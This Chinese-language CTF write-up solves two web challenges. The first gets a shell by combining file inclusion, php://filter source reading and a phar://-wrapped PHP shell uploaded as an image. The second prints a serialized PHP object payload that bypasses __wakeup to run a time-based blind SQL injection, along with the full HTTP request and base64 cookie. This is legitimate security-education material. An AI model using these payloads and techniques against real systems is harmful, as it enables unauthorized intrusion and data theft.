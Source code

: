    ​

------

## Web2(大礼包)

[http://web2.08067.me/](http://web2.08067.me/)

根据首页提示，可以发现include.php页面存在文件包含漏洞，利用参数file,右键源码查看获tips：upload.php。上传加文件包含很容易想到getshell。

首先利用php://filter读取两个文件的源码，可以发现只能上传图片文件，并且file参数后强行加了php后缀，又过滤了..，所以不能跨目录，php版本为5.5，也不存在截断。而且这个环境并不支持zip协议，于是只有利用phar://协议getshell。

构造xxx.zip文件，里面加入我们的一句话文件并压缩，改名为图片后缀名上传，最后getshell.下面是一个测试，可以看到php执行成功了（test.php里面是<?php phpinfo();?>)

 ![1](/Users/moxiaoxi/Desktop/1.png)



后面还有很多，可惜环境关了，不能复现了。。





------

## Web3

.bak源码泄漏，robots.txt =》》》》可以得到function.php.bak  index.php.bak整个题的源码。从源码中，可以知道是需要以cookie登录，同时有一个反序列化导致注入的问题。

改变序列化个数使反序列化时 不调用wakeup函数，这样就直接进入析构函数，但是这样就不会有sql回显，只能采用sleep时间盲注。接下来，有一个过滤函数，它会先把单引号包含的东西替换掉，然后进行恶意代码检测

```sql
select * from phpinfoadmin where username=moxiaoxi union select 1`'`,2,sleep(10)`'
=》》》》》
string(64) "select * from phpinfoadmin where username=$s$ union select 1`$s$"
那么，我们只要让我们的恶意代码让她替换的时候视为单引号里的字符串替换掉就可以了
select的子段位置可以使用 ``作为类似注释符的作用，所以构造
O:5:"login":4:{s:3:"uid";i:0;s:4:"name";s:40:"moxiaoxi' union select 1`'`,2,sleep(10)`";s:4:"pass";s:32:"cec70fd46e477b43085f881ae15cc173";}
测试可以了
这是延迟10秒的数据包
GET /wakeup/index.php HTTP/1.1
Host: web3.08067.me
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://web3.08067.me/wakeup/index.php
Cookie: user=Tzo1OiJsb2dpbiI6NDp7czozOiJ1aWQiO3M6MjoiMTMiO3M6NDoibmFtZSI7czo0MDoibW94aWFveGknIHVuaW9uIHNlbGVjdCAxYCdgLDIsc2xlZXAoMTApYCI7czo0OiJwYXNzIjtzOjMyOiJjZWM3MGZkNDZlNDc3YjQzMDg1Zjg4MWFlMTVjYzE3MyI7fQ==
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 3



对应的payload
O:5:"login":4:{s:3:"uid";s:2:"13";s:4:"name";s:40:"moxiaoxi' union select 1`'`,2,sleep(10)`";s:4:"pass";s:32:"cec70fd46e477b43085f881ae15cc173";}
```

